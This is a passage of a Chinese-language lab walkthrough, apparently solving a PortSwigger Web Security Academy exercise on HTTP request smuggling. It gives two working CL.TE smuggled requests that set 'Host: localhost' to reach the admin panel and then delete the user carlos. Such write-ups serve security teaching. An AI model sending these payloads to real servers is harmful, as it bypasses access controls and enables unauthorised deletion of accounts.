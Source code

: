 [![](assets/1704418275-0f805d14d49ec4910911f885dfacb693.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155100-d669d868-aa0c-1.png)  
此时第二个数据包中看到只允许 local 访问

[![](assets/1704418275-33b86df6e599a9a11caae9b56f876683.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155119-e1808cba-aa0c-1.png)  
随后添加头部信息"Host: localhost"，修改后的请求数据包如下并请求两次：  
[![](assets/1704418275-2fb084ddcde8944cded96602d2d93f68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155201-fa4f1b44-aa0c-1.png)  
从上面可以看到这里由于第二个请求的主机头与第一个请求中走私的主机头冲突，从而导致请求被阻塞，随后发送以下请求两次以便将第二个请求的标头附加到走私的请求正文中：

```plain
POST / HTTP/1.1
Host: 0ae3000c04275ff48012fd73008e00b8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

[![](assets/1704418275-61c58da310921c1dbc8030973a4b0cb4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155228-0ab0e922-aa0d-1.png)  
[![](assets/1704418275-1bc232d23a37194fccce835159564f56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155241-12ae5498-aa0d-1.png)  
现在我们可以访问管理面板了，随后我们直接调用接口来删除 carlos：

```plain
POST / HTTP/1.1
Host: 0ae3000c04275ff48012fd73008e00b8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

[![](assets/1704418275-8b5a010446e52b2591ef07acb81ba009.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155311-2485f9f0-aa0d-1.png)  
随后完成解题：  
[![](assets/1704418275-3544f2bdb35312fedf36b043e2655dc3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155323-2b601864-aa0d-1.png)
